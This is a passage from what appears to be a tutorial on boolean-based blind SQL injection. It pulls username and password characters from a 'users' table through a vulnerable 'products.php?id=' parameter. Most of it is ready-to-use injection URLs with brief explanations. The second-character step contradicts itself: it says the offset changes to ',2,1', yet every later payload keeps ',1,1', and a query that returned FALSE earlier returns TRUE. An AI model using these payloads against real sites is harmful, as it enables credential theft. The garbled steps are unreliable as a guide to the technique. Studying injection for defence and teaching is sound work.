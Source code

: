 Now that we found the table name called users and column name called password, we will try to pull characters from the database.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80
```
This then pulls the first character from the first user in the users table.

Here the substring returns the first character and is 1 character in length, ascii() then converts that 1 character into an ascii value and compares it with the greater then > symbol.

So if the ascii character is greater than 80, the page loads normally and the result is TRUE. But we need to keep trying until we get a FALSE.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>95
```
The above URL returns TRUE for 95 so we keep incrementing until we get FALSE.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>98
```
Once again 98 returns TRUE and we keep incrementing.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
```
Success, finally 99 returns FALSE!!!

This now means that the first character in username is char(99), using an online ascii converter we now know that char(99) is the letter 'c'.

Next let's check for the second character.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),2,1))>99
```

**Note:** I have changed ,1,1 to ,2,1 to get the second character, this will return the second character with 1 character in length.

```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
```
The above URL returns TRUE for 99 so we keep incrementing until we get FALSE.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>107
```
This time the above URL returns FALSE for 107 so we need to find a number between 99 and 107
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>104
```
The above URL returns TRUE for 104 so we keep incrementing until we get FALSE.
```
http://mysite/products.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>105
```
Success, 105 returns FALSE!!!
